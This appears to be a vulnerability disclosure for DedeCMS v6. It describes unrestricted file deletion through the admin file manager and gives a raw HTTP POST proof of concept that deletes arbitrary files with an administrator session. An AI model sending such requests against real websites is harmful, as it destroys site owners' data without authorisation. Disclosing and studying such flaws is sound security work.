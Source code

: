 # dedecmsv6
There are no restrictions on deleting files in file_manage_control.php and file_class.php,
so sending fixed data packets to file_manage_control.php can delete any file on the website.

![图片](https://user-images.githubusercontent.com/40231393/195552507-f99bf93d-f17c-4f93-82f3-3b31aa0b4b4a.png)
![图片](https://user-images.githubusercontent.com/40231393/195552579-a06ecffa-3a27-40f0-a0c0-ad7fda206832.png)
![图片](https://user-images.githubusercontent.com/40231393/195552717-5c919517-9fdb-4d49-9e1b-572656016f86.png)

After the administrator logs in, the following data packets are sent, activepath represents the directory, and filename represents the file name：

![图片](https://user-images.githubusercontent.com/40231393/195552936-f738a5bc-285c-4cb0-afd7-2fc8eaf307bb.png)
![图片](https://user-images.githubusercontent.com/40231393/195553123-a6d66c3a-6eb9-4cda-b584-43fb82645e42.png)
![图片](https://user-images.githubusercontent.com/40231393/195553149-0223fa8c-629d-40bb-a90f-026dbbea5214.png)

POC:

POST /DedeCMSV6-master/src/admin/file_manage_control.php HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://xx.xx.xx.xx
Connection: close
Referer: http://xx.xx.xx.xx/DedeCMSV6-master/src/admin/file_manage_view.php?fmdo=del&filename=test.php&activepath=
Cookie: menuitems=1_1%2C2_1%2C3_1%2C5_1%2C4_1; PHPSESSID=i20mmut5128j63u9esd5l9k8s6; DedeUserID=1; DedeUserID__ckMd5=210ceb5e86540252; DedeLoginTime=1665381687; DedeLoginTime__ckMd5=bf8aeae2f9ed5fd0; dede_csrf_token=97cb0292999d618f7e6a62e475bec9ad; dede_csrf_token__ckMd5=d502bce6a74e73cc; ENV_GOBACK_URL=%2FDedeCMSV6-master%2Fsrc%2Fadmin%2Fmedia_main.php%3Fdopost%3Dfilemanager
Upgrade-Insecure-Requests: 1

fmdo=del&activepath=/&filename=test.php
